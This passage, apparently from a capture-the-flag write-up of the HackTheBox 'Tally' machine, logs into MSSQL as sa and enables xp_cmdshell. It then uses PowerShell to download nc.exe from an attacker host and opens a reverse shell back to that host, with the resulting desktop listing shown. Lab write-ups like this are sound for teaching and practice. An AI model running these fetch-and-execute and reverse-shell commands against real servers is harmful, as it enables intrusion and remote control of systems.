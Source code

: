 ```
sqsh -S 10.10.10.59 -U sa
```

```
EXEC SP_CONFIGURE N'show advanced options', 1

go

EXEC SP_CONFIGURE N'xp_cmdshehll', 1
go

RECONFIGURE
go


xp_cmdshell 'dir C:\';
go

xp_cmdshell 'mkdir c:\boo';

xp_cmdshell 'powershell Invoke-WebRequest -uri http://10.10.14.17/nc.exe -outfile c:\boo\nc.exe';
go

xp_cmdshell 'c:\boo\nc.exe 10.10.14.17 6969 -e cmd';
go
```
use a python3 webserver to serve nc.exe
```
python3 -m http.server 80
```


we catch the shell on `nc -nlvp 6969`

![gotshell](/assets/img/tally/tally-gotshell-sarah.png)




```
c:\Users\Sarah\Desktop>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is 8EB3-6DCB

 Directory of c:\Users\Sarah\Desktop

07/04/2020  22:01    <DIR>          .
07/04/2020  22:01    <DIR>          ..
01/10/2017  22:32               916 browser.bat
17/09/2017  21:50               845 FTP.lnk
23/09/2017  21:11               297 note to tim (draft).txt
19/10/2017  21:49            17,152 SPBestWarmUp.ps1
```